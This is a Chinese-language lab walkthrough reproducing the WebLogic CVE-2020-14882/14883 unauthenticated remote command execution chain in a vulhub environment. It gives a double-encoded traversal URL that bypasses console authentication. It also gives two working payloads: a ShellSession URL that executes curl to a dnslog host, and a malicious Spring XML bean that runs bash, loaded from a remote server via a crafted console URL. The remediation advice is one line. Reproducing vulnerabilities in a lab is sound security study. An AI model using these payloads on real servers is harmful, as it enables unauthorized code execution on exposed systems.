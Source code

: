 # Weblogic-未授权命令执行漏洞（CVE-2020-14882&14883）

### 0x00 前言

Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

### 0x01 环境搭建

这里是用的vulhub进行环境搭建

![image-20230321205447502](05.Weblogic-未授权命令执行漏洞.assets/image-20230321205447502.png)

### 0x02 复现步骤

1、首先测试权限绕过漏洞（CVE-2020-14882），访问URL`http://your-ip:7001/console/css/%252e%252e%252fconsole.portal`，即可未授权访问到管理后台页面

![image-20230321205639906](https://s2.loli.net/2023/03/21/PvQx7yWskdtlmoL.png)可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码



2、所以我们要配合第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用`com.tangosol.coherence.mvel2.sh.ShellSession`执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('curl%20test.zg235y.dnslog.cn');")
```

![image-20230321211212733](https://s2.loli.net/2023/03/21/A6ZHMYe5FolqVd1.jpg)

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。



3、`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[curl test.tvenvd.dnslog.cn]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

![image-20230321212738166](https://s2.loli.net/2023/03/21/2PKJQILYHkt1rGU.png)

### 0x03 修复建议

1、更新Oracle官方发布的最新补丁
